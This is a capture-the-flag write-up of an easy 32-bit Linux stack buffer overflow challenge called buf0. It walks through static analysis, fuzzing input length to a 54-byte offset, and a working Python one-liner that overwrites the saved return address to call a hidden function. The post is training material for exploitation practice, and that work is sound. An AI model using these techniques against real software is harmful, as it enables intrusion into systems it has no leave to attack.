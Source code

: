 buf0 - A Buffer Overflow Challenge
==================================
date: 06/Jan/2014
summary: This is a writeup for an easy buffer overflow challenge file I found online.
tags: ctf

## Introduction

The binary can be obtained from here: [buf0](/static/files/posts_buf0_challenge/buf0.bin). Let's see what `file` command has to tell us about this challenge file:

```
$ file buf0.bin
buf0.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3a0cbf6e6af7d4a5d1294f2ce18e80ad3e778d48, not stripped
```

## Program Analysis and Testing

So, this is an x86 ELF binary with symbols included. Let's run `strings` as well over this file:

```
$ strings buf0.bin
/lib/ld-linux.so.2
j,O)
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

This is interesting. The binary is using `gets` syscall which is commonly exploited against buffer overflow vulnerabilities. There is a `W00T!` string as well which indicates that we need to exploit the binary and get this string printed. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/posts_buf0_challenge/ida-start.png.webp)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/posts_buf0_challenge/ida-returntome.png.webp)

Like I mentioned earlier, this is where the `W00T!` string is printed and as per the assumption, we need to leverage the overflow in a way that this function is called. Let's now run the binary and see how it behaves:

```
$ ./buf0.bin
AAAAAAAAAAA
$
$ python -c 'print "A"*10' | ./buf0.bin
$ python -c 'print "A"*30' | ./buf0.bin
$ python -c 'print "A"*50' | ./buf0.bin
$ python -c 'print "A"*60' | ./buf0.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
$ python -c 'print "A"*53' | ./buf0.bin
$ python -c 'print "A"*54' | ./buf0.bin
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
```

So, the binary accepts input through the `gets` syscall and is as such vulnerable to a classic stack-based buffer overflow. We do some trial-and-error to figure out the size of the buffer and it turns out to be 54B after which any extra byte would corrupt the stack metadata resulting in a `Segmentation fault (core dumped)` error. So, these 54B comprise of the following stack variables:

```
50B (buf) + 4B (saved EBP)
```

The next 4B following saved EBP is the saved return address, EIP, and this is what we need to overwrite to achieve successful exploitation. For this challenge, the author wants us to overwrite EIP with the address of the `returnToMe` function but there are others ways of exploiting this as well:

1.  Injecting a 54B or less shellcode in the buffer and overwriting EIP
    with the start of the shellcode/NOP sled
2.  Injecting a bigger shellcode through an environment variable and
    overwriting EIP with it's address

But to keep things simple, let's just focus on how to complete the challenge by satisfying author's criteria. To know how to exploit such challenges using above steps please read my earlier post [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) and it's subsequent parts.

From the IDA screenshot above it is already known that the `returnToMe` function is at location 0x08048404. Let's exploit the binary with a random payload of 54B concatenated with this new return address:

```
$ python -c 'print "A"*54 + "\x04\x84\x04\x08"' | ./buf0.bin
W00T!
```

## Conclusion

Awesome! We get the required string printed, thus completing this challenge. Stay tuned for a post on a similar challenge.
